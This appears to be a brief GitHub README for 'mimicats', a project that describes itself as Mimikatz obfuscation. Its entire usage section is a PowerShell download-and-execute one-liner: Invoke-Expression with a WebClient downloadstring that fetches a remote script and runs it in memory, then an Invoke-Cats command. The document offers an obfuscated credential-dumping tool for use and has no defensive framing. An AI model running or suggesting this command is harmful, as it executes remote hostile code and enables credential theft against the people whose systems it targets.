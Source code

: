# mimicats
Mimikatz obfuscation

```
Invoke-Expression (New-Object Net.Webclient).downloadstring('https://raw.githubusercontent.com/Moon1705/mimicats/master/Mimicats.ps1')
Invoke-Cats -Command '"command"'
```
